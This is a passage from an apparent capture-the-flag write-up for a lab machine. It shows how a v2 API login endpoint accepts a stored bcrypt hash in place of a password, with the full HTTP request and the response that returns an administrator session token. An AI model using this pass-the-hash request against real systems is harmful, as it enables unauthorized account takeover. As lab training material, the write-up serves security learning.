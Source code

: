 Cracking the hashes was not reasonable for a CTF challenge. I discovered a v2 version of the API which has a login endpoint which is requesting a hash. This allowed authentication as administrator to the web app.

##### Request
```
POST /api/v2/auth/login HTTP/1.1
Host: 10.129.170.72
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.170.72/
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6InpDMlFzSXpFQ2ljdnV5RHBQNTIwaEE9PSIsInZhbHVlIjoiUUwvWExrUDE2cVdlbEdteWtZY0Yzbkt1dUdSRG5JeFdvcll1WEZDMXRkUW9GZTN0WTZkTXpNMFg3ZlJ0UERGS1ZyNU55S0t3bUpmRXV5VkRRVDB1bG1tWmc0NXJYNUF4aE9zdmtDa2ZWTnNIRTYvZVM1MlZRdE1SL0VaaUFKM0oiLCJtYWMiOiJiMTM2OGU4MDA0ODYzZjk1NWNlNmMwNTllMzY0NGU4OTYzZGM3NzJhYjM5NDEyYjBhOTIwYzIzMzIyYTA3MTIyIiwidGFnIjoiIn0=
Content-Length: 101
Origin: http://10.129.170.72
DNT: 1
Connection: close
Cookie: XSRF-TOKEN=eyJpdiI6InpDMlFzSXpFQ2ljdnV5RHBQNTIwaEE9PSIsInZhbHVlIjoiUUwvWExrUDE2cVdlbEdteWtZY0Yzbkt1dUdSRG5JeFdvcll1WEZDMXRkUW9GZTN0WTZkTXpNMFg3ZlJ0UERGS1ZyNU55S0t3bUpmRXV5VkRRVDB1bG1tWmc0NXJYNUF4aE9zdmtDa2ZWTnNIRTYvZVM1MlZRdE1SL0VaaUFKM0oiLCJtYWMiOiJiMTM2OGU4MDA0ODYzZjk1NWNlNmMwNTllMzY0NGU4OTYzZGM3NzJhYjM5NDEyYjBhOTIwYzIzMzIyYTA3MTIyIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjVBN1BCYzVGRDkxVXpldU5kaDhRWXc9PSIsInZhbHVlIjoicHAyZG5qTDdSVFpOZzNES202WkZxZXM1cWxDT1dJeEZEb3AxdGNCa3l6NTY2RDVndEM4RXZXOGx6Njd4bm1rZXRaa2xyenUyQjl3ajVVT0d4TEFOY1VnaldObkRQalY3dnoxajhIeGRuMS9xbWMvWWQwc203MFNZL0RIRitPYnIiLCJtYWMiOiIyM2FiZWJjZDY1ODdjNWJkY2FhYzU1MmQ3ODBmYTVhNDExMTg3MjgwOGE4NGFiNzY0ODVmMTgwZjc4OTIwYzNhIiwidGFnIjoiIn0%3D

{"email":"greg@intentions.htb","hash":"$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m"}
```

##### Response
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/json
Connection: close
Cache-Control: no-cache, private
Date: Mon, 03 Jul 2023 19:56:12 GMT
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE3MC43Mi9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODQxNDE3MiwiZXhwIjoxNjg4NDM1NzcyLCJuYmYiOjE2ODg0MTQxNzIsImp0aSI6InpGWm53cUk5cVE5TDBySEgiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.eiQigx7jrSfMX3CWHKRbq93mEN3M8dSVNs4aQTZCKCU
X-RateLimit-Limit: 3600
X-RateLimit-Remaining: 3597
Access-Control-Allow-Origin: *
Set-Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTI5LjE3MC43Mi9hcGkvdjIvYXV0aC9sb2dpbiIsImlhdCI6MTY4ODQxNDE3MiwiZXhwIjoxNjg4NDM1NzcyLCJuYmYiOjE2ODg0MTQxNzIsImp0aSI6InpGWm53cUk5cVE5TDBySEgiLCJzdWIiOiIyIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.eiQigx7jrSfMX3CWHKRbq93mEN3M8dSVNs4aQTZCKCU; expires=Tue, 04-Jul-2023 01:56:12 GMT; Max-Age=21600; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Length: 34

{"status":"success","name":"greg"}
```